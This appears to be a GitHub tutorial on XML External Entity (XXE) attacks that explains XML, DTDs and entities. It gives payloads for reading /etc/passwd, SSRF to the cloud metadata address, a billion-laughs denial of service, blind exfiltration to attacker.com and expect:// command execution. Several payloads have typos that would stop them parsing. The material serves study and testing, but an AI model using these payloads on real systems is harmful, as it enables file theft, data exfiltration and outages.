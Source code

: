 ## INFO 

Before we look at XXE, let’s look into few XML Basics which helps us to understand the main concepts behind XXE

## WHAT IS XXE 

XML stands for Extensible Markup Language, that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable,
and the current version is 1.0.

## Design Goals of XML:

1. Easy processing across the internet.
2. Clear
3. Easy to create

## Some Code of XML:

    <?xml version=”1.0” encoding=”UTF-8”?> 
    <plane>
      <year> 1977 </year>
      <make> Cessna </make>
      <mode> Skyhawk </mode>
      <color> Light Blue and White </color>
    </plane>
    
 ## XML Parser
 
 Say, you have an XML document and your application needs to process the document, 
 the part of processing the XML is called XML Parser and parser tried to parse the document which allows your application to use the parsed values.
 
 ## Document Type Definition (DTD)
 
 This is an optional part of XML but it is part of the XML standard itself. DTD provides a grammar for a class of documents, which can contain markup  declarations which define the structure for a document and can also contain Entities. [note: DTD are prohibited from version 1.1]
 
 ## Entities
 
 These can be seen as a placeholder for variables which comes in
1. Regular Entities: Text substitution, where instead of adding text we can add a reference to the entity.
2. Predefined Entities: This is part of the XML standard.
3. External Entities: A placeholder that can point to internal and external resources.

## Some Code Explane How Vulnerablity Works

    <?xml version=”1.0” encoding=”UTF-8”?>
    <!DOCTYPE Vulnerability [ #DTD Decleration
    <!ENTITY xxe “XXE”> #Entity Decleration
    ]>
    <Vulnerability>
    &xxe; #Reference to entity
    </Vulnerability>

## XML Validation

In this process, we generally validate the well-formedness where we check the syntax but not validate whether it is a valid instance of the included DTD.

Tools we can use to validate an XML file are xmllint and xmlstarlet.

## Common places to search for?

XML file upload (e.g confing files)

XML input fields

XML based Apis

XML based file (RSS,SVG,CSS)

Ms Office files (docx,xlsx,etc.)

SAML-based SSO

VoiceXML in IVR systems

Online MAP editors using KML

## ATTACK TYPE 

1. Classic XXE
2. Server Side Request Forgery
3. Denial of Service 
4. Advanced XXE 
5. Remote Code Execution

##  Classic XXE

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "file:///etc/passwd"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>
    
 ## OUTPUT 
 Hello Khan root:x:0:0:root....
 .......
 ''''''
 
This is Vulnerability
    
## Server Side Request Forgery

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTTITY asif SYSTEM "https://169.254.169.254"> ]>
    <userInfo>
    <FirstName>Khan</firstName>
    <lastName>&asif;</lastName>
    </userInfo>

 ## OUTPUT
 
 Hello asif 1.0
 2007-01-09
 2007-03-01
 .......
 ''''''

## Denial of Service 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lolz [<!ENTITY lol "lol><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5">
<!ENTITY lol7 "&lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6;lol6">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8">
<tag>&lol9;</tag>


 ## Advanced XXE 
 
 1.Also Known as Blind XXE 
 2.Out of band data exfiltration 
 
 The Payload to Upload/Send
 
     <!DOCTYPE roottag [
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % dtd SYSTEM "http://attacker.com/host.dtd">
     %dtd;]>
     <roottag>&send;</roottag>
     
     Content of host.dtd
     <!ENTITY % all "<!ENTITY send SYSTEM "http://attacker.com/collect.php?file=%file;'>">
     %all;
 
 ## Remote Code Execution 
 
 In Some rare cases XXE can be elevated to executed system commands on the server 
 
 SAMPLE paylod: 
 
     <!DOCTYPE replace [<!ENTITY ent SYSTEM "expect://whoami"> ]>
 
